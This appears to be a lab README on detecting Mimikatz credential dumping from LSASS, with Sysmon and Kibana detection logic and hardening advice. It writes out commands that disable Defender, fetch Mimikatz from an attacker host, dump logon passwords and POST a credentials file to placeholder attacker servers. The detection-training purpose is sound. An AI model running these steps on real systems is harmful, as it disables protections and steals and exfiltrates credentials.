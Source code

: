 ### 🛡️ Task: Credential Dumping and Exfiltration via Mimikatz

---

## 📘 Scenario Summary

This task demonstrates a credential dumping attack using **Mimikatz** on a Windows machine. The goal is to extract credentials from **LSASS** memory and simulate **data exfiltration over HTTPS**, observing behavior through **Sysmon**, **Winlogbeat**, and **Elasticsearch/Kibana**.

---

## 🧪 Lab Setup

* **Attacker Machine**: Kali Linux
* **Victim Machine**: Windows 10 (Home or Pro)
* **Connectivity**: Bridged adapter (same network)
* **Monitoring Tools**: Sysmon + Winlogbeat + Elasticsearch + Kibana (already configured)

---

## 🛠️ Tools Required

* [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)
* Sysmon (for Event ID 10 - process access)
* Netcat, curl or PowerShell (for exfiltration simulation)

---

## 🔥 Steps to Perform Attack

### 🔹 Step 1: Disable Defender (optional)

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### 🔹 Step 2: Download and Extract Mimikatz

Use browser or PowerShell to download the zipped build:

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/mimikatz.zip" -OutFile "$env:USERPROFILE\Downloads\mimikatz.zip"
Expand-Archive "$env:USERPROFILE\Downloads\mimikatz.zip" -DestinationPath "C:\Temp\mimikatz"
```

### 🔹 Step 3: Run Mimikatz and Dump Credentials

```cmd
cd C:\Temp\mimikatz
mimikatz.exe
sekurlsa::logonpasswords
```

### 🔹 Step 4: Simulate Exfiltration

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/upload" -Method POST -Body (Get-Content .\creds.txt)
```

Or:

```powershell
Invoke-RestMethod -Uri "https://<attacker-server>/receive" -Method POST -Body "dumped credentials"
```

---

## 📊 Detection Focus

### 📁 Sysmon Event IDs

| Event ID | Description                  |
| -------- | ---------------------------- |
| 10       | lsass.exe access by mimikatz |
| 1        | Process creation of mimikatz |
| 3        | Network connection           |

### 📁 Winlogbeat Event IDs

| Event ID | Description  |
| -------- | ------------ |
| 4624     | Logon events |

---

## 🔍 Detection Logic

* **Process Creation**: mimikatz.exe, powershell.exe calling web resources
* **Sysmon ID 10**: Access to `lsass.exe` by unauthorized process
* **Outbound HTTP/HTTPS POST** from non-browser apps (PowerShell, cmd)

---

## 🛡️ Mitigation & Hardening

* Enable Credential Guard
* Restrict debug privileges
* Block known hacking tools using AppLocker
* Use endpoint detection and response (EDR)

---

## 📌 Status

| Field               | Value               |
| ------------------- | ------------------- |
| 🧪 Detection Logic  | ✅ Confirmed working |
| 📈 Data Visibility  | ✅ Shown in Kibana   |
| 💬 Exfil Simulation | ✅ Via PowerShell    |
| 🧰 Tool Used        | Mimikatz            |

---

